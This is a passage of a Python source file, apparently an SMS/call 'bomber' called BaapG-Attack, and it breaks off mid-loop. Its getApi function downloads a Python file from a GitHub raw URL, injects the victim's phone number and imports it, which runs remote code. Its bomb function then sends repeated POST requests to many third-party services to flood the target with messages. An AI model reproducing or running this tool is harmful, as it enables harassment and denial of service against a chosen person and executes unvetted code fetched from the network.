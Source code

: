 {W}┃╰╯╰┳━━┳━━┳━━┫┃╱╰╯ ┃┃╱┃┣╮╭┻╮╭╋━━┳━━┫┃╭╮
{W}┃╭━╮┃╭╮┃╭╮┃╭╮┃┃╭━╮ ┃╰━╯┃┃┃╱┃┃┃╭╮┃╭━┫╰╯╯
{G}┃╰━╯┃╭╮┃╭╮┃╰╯┃╰┻━┃ ┃╭━╮┃┃╰╮┃╰┫╭╮┃╰━┫╭╮╮
{G}╰━━━┻╯╰┻╯╰┫╭━┻━━━╯ ╰╯╱╰╯╰━╯╰━┻╯╰┻━━┻╯╰╯
╱╱╱╱╱╱╱╱╱╱┃┃ {C}Author : {Y}BaapG Krishna {Y}Rajput
╱╱╱╱╱╱╱╱╱╱╰╯ {C}Coder  : {Y}Ansh Dadwal
{C}             Version : {G}{version}
 """


def prepend_line(file_name, line):
    dummy_file = file_name + '.bak'
    with open(file_name, 'r') as read_obj, open(dummy_file, 'w') as write_obj:
        write_obj.write(line + '\n')
        for line in read_obj:
            write_obj.write(line)
    os.remove(file_name)
    os.rename(dummy_file, file_name)


def getApi(target):
    apiUrl = "https://raw.githubusercontent.com/T-Dynamos/BaapG-Attack/main/apiData.baap"
    try:
        a = requests.get(apiUrl)
        open('dataBa.py', 'wb').write(a.content)
        prepend_line('dataBa.py',f'target = {target}')
        import dataBa
        from dataBa import apis, apidata
    except Exception as e:
        return exit(str(e))
    return {"apis":apis,"apidata":apidata,"total":len(apis)}

                
def bomb(times1,target):
    finalApi = getApi(target)
    apis = finalApi["apis"]
    apidata = finalApi["apidata"]
    total = finalApi["total"]
    times = round(times1/total)
    if times == 0:
        times = 1
    print (printBox("Total apis : "+str(total)+" | Number of times to send : "+str(times1),col1=Style.BRIGHT+B,col2=Y))   
    print()
    success =0
    fail =0
    for i in range(0,times):
        for api in apis:
            if "POST" in api:
                url,data,head,method,check = api
                try:
                    a = requests.post(url,data=data,headers=head)
                    if check in a.text:
                        success += 1
                    else:
                        